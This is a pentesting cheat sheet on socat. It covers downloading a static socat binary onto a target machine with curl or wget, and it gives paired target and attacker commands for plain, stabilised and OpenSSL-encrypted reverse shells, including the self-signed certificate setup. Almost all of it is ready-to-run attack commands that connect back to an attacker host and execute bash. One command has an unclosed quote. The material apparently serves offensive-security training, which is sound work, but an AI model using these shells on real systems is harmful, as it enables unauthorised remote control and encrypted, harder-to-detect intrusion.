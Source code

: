 # socat

Using basic methods such as netcat will generate a shell that might not be stable: terminates with ctrl+Z, non-interactive shell, etc. Alternative methods are available:

Socat is generally more stable on Linux systems compared to Windows (target machine). As socat might not be installed on all target Linux systems, it will need to be installed. However, the common method of using `apt install` or `apt-get install` is not ideal as it requires multiple dependencies and other possible configurations.&#x20;

Instead, a static compiled binary (without dependencies) can be installed from a direct HTTP URL on the target machine using tools such as `curl` or `wget`. Link: [https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)

```bash
$ curl https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true --output /bin/socat
```

```bash
$ wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true -O /bin/socat
```



_**Note**_: The output directory depends on a few factors such as the current working directory, or the value of the `$SHELL`environment variable. This is important to ensure the installed binary can be executed from the target machine.

#### Hosting the binary on a publicly accessible attacker-controlled machine

The binary can also be hosted on another attacker-controlled machine on the internet, and be accessed via a simple Python web server running on that machine.

### Reverse shell

#### Target machine (initiate revere shell connection)

```bash
$ socat tcp:[attacker_ip]:[attacker_port] EXEC:"bash -li
```

#### Attacker machine (listening)

```bash
$ socat tcp-l:[listen_port] -
```

### Best reverse shell experience

**Target machine**

```bash
$ socat TCP:10.0.22.4:8888 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

**Attacker machine**

```bash
$ socat tcp-l:8888 FILE:`tty`,raw,echo=0
```



### Encrypted shell with OpenSSL

**Creating a self-signed certificate (on the attacker machine)**

```bash
$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

1. `req`: Specifies to create a certificate request or certificate.&#x20;

* In this case, the `-x509` flag is specified, which indicates to create a self-signed certificate

2. `--newkeyrsa:2048`: This specifies that a new private key should be generated with the _RSA_ algorithm, using a key size of 2048 bits.

**Merge the two created files `shell.key` and `shell.crt` to the file `shell.pem`**

```bash
$ cat shell.key shell.crt > shell.pem
```

### Reverse shell

**Listen on attacker machine**

```bash
$ socat openssl-listen:<listen_port>,cert=shell.pem,verify=0 -
```

* `cert=shell.pem:` Specify to use the certificate`shell.pem`
* `verify=0`:  This tells OpenSSL to not validate the certificate&#x20;

#### Connect from the target machine

```bash
$ socat openssl:<attacker_ip>:<attacker_port>,verify=0 EXEC:/bin/bash
```



### Stable encrypted reverse shell

Attacker

```bash
$ socat openssl-listen:<listen_port>,cert=<cert>,verify=0 FILE:`tty`,raw,echo=0
```

Target

```bash
$ socat openssl:<attacker_ip>:<attacker_port>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

